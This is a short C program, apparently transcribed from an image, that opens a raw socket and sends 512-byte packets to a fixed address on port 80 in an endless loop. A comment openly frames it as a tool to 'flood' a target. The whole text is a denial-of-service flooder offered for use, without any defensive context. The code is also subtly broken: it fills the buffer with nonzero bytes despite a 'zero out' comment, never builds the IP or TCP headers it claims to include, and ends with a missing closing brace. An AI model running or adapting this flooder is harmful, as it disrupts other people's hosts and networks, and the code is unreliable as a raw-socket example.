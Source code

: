 #include<stdio.h>
#include<string.h> //memset
#include<sys/socket.h>
#include<stdlib.h> //for exit(0);
#include<errno.h> //For errno - the error number
#include<netinet/tcp.h> //Provides declarations for tcp header
#include<netinet/ip.h>  //Provides declarations for ip header

int main (void)
{
    //Create a raw socket
    int s = socket (PF_INET, SOCK_RAW, IPPROTO_TCP);

    if(s < 0)
    {
        perror("socket");
    }

    //Datagram to represent the packet
    char datagram[4096] , source_ip[32];

    struct sockaddr_in sin;

    strcpy(source_ip , "192.168.1.2");

    sin.sin_family = AF_INET;
    sin.sin_port = htons(80);
    sin.sin_addr.s_addr = inet_addr ("1.2.3.4");

    memset (datagram, 2 , 4096);    /* zero out the buffer */

    //IP_HDRINCL to tell the kernel that headers are included in the packet
    int one = 1;
    const int *val = &one;
    if (setsockopt (s, IPPROTO_IP, IP_HDRINCL, val, sizeof (one)) < 0)
    {
        printf ("Error setting IP_HDRINCL. Error number : %d . Error message : %s \n" , errno , strerror(errno));
        exit(0);
    }

    //Uncommend the loop if you want to flood :)
    while (1)
    {
        //Send the packet
        if (sendto (s,      /* our socket */
                    datagram,   /* the buffer containing headers and data */
                    512,    /* total length of our datagram */
                    0,      /* routing flags, normally always 0 */
                    (struct sockaddr *) &sin,   /* socket addr, just like in */
                    sizeof (sin)) < 0)      /* a normal send() */
        {
            perror("sendto");
        }
        //Data send successfully
        else
        {
            printf ("Packet Send \n");
        }
    }
